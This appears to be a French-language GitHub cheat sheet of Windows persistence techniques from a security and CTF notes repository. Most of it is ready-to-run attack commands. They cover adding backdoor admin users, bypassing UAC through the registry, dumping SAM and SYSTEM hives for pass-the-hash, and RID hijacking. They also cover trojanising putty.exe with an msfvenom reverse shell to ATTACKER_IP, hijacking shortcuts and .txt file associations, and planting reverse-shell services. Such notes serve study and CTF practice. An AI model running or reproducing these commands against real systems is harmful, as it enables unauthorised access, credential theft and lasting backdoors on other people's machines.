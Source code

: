 # Windows
Quelques techniques de persistence sur windows

## Commandes

```
evil-winrm -i <IP> -u MyUser -p MyPassword
xfreerdp /u:MyUser /p:MyPassword /v:<IP> +clipboard
```

<br>
<br>

## Sur la machine [victime]
```
net localgroup administrators MyUser /add
net localgroup "Backup Operators" MyUser /add
net localgroup "Remote Management Users" MyUser /add
```
Si winrm, pour bypass <a href="https://learn.microsoft.com/fr-fr/windows/security/application-security/application-control/user-account-control/how-it-works">UAC</a>
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Avec un utilisateur qui a les privilèges [WinRM] <a href="https://github.com/fortra/impacket">Repo GitHub ici!</a>
```
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```
[Attaquant]
```
python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
evil-winrm -i 10.10.66.252 -u Administrator -H <theHash>
```
<br>
<br>

## Special Privileges and Security Descriptors

```
secedit /export /cfg config.inf
```
![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/58320646-9e80-4e67-8fa1-7d529653acc9)

```
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
```
On doit maintenant avoir les privilèges `Backup Operator`.

si utilisation de winrm, sur le GUI taper [PowerShell]
```
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```
Y ajouter l'utilisateur

<br>
<br>

## RID Hijacking
Check des utilisateurs avec leur RID
```
wmic useraccount get name,sid
```
```
PsExec64.exe -i -s regedit
```

Sous `HKLM\SAM\SAM\Domains\Account\Users\`, chercher la valeur hexadécimal qui correspond au RID de l'utilisateur souhaité. Tool en ligne pour convertir les RID en hexadécimal <a href="https://www.to-convert.com/fr/nombre/convertir-decimal-en-hexadecimal.php">ici</a>.
<br>
UNe fois qu'on a trouvé la valeur qui correspond à notre utilisateur, on ouvre le dossier pour éditer la valeur de `F` à la ligne 0030 (correspond au RID en little-endian c'est-à-dire <strong>inversé</strong>)

![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/82e4b1fa-a8ed-43fe-ae39-84cc08a64fff)
<br>
On va cherché à lui donner la valeur de celui de l'administrateur à savoir RID=500 donc `01F4` (`F401` en little-endian)! 

![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/bdeef6ac-10eb-479e-9173-98dbc9efaa4f)

La prochaine fois que le user se connectera LSASS associera à celui-ci, le même RID que l'administrateur !

<br>
<br>

## Executable Files

Avec `evil-winrm` télécharger en local le fichier exécutable (exemple avec PuTTY)
```
download "C:\Program Files\PuTTY\putty.exe"
```
ensuite 
```
msfvenom -a x64 -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```
On réupload derrière
```
upload puttyX.exe
```
<br>
<br>

## Shortcut Files

Script PowerShell pour reverse shell <a href="https://github.com/martinsohn/PowerShell-reverse-shell/tree/main">ici</a>.
<br>
<br>
Créer un fichier `backdoor.ps1` par exemple ici : `C:\Windows\System32\backdoor.ps1`.
<br>
Faire propriété sur un raccourci du bureau et y coller dans `Target` :
```
Start-Process -NoNewWindow "C:\Windows\System32\backdoor.ps1 ATTACKER_IP 4445"

C:\Windows\System32\<file>.exe
```
Penser aussi à changer l'icône !
<br>
<br>

## Hijacking File Associations (exemple avec .txt)
Ouvrir `regedit.exe`
<br>
Se rendre ici 
```
HKLM\Software\Classes\.txt
```
![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/d7767880-f541-4ca9-aeaa-9f197a1125b0)

Ensuite 
```
HKLM\Software\Classes\txtfile\shell\open\command
```
![image](https://github.com/LoKyOnTheCode/Securite-Informatique-et-CTF/assets/97956863/80ca377c-f582-4aa9-a851-cdd0b7e4b4ab)


On créer une backdoor.ps1 quelque part dans l'arborescence, puis on modifie la valeur `Data`
```
Start-Process -NoNewWindow "c:\Windows\System32\backdoor.ps1 ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

<br>
<br>

## Creating backdoor services

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=1337 -f exe-service -o rev-svc.exe
nc -lnvp 1337
```
[evil-winrm]
```
upload rev-svc.exe
sc.exe create MyService binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start MyService
```
<br>
<br>

## Modifying existing services
Reconnaissance
```
sc.exe query state=all
```
Interroger un service
```
sc.exe qc TheService
```
Payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
nc -lnvp 5558
```
[evil-winrm]
```
upload rev-svc2.exe
sc.exe config TheService binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
sc.exe stop/start TheService
```

<br>
<br>

